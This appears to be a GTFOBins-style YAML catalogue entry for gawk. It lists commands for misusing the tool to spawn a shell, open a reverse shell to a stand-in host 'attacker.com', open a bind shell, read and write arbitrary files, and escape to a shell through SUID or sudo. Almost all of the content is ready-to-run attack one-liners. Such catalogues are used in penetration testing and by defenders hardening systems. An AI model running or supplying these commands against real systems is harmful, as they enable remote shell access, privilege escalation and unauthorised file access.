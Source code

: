 functions:
  shell:
    - code: gawk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        gawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        gawk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        gawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        gawk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./gawk '//' "$LFILE"
  sudo:
    - code: sudo gawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./gawk 'BEGIN {system("/bin/sh")}'
---

